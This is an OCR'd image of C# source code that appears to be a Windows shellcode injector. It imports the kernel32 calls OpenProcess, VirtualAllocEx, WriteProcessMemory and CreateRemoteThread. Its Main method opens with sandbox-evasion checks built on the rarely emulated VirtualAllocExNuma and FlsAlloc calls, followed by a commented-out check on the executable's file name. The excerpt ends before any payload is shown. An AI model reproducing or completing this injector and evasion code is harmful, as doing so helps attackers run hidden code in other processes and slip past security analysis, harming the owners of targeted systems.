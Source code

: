 ```csharp
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace inject
{
    internal class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr FlsAlloc(IntPtr callback);

        static void Main(string[] args)
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
            {
                return;
            }

            IntPtr ptrCheck = FlsAlloc(IntPtr.Zero);
            if (ptrCheck == null)
            {
                return;
            }

            // uncomment the following code if the sand box has internet

            //string exename = "Injector+heuristics";
            //if (Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]) != exename)
            //{
            //    return;
            //}
```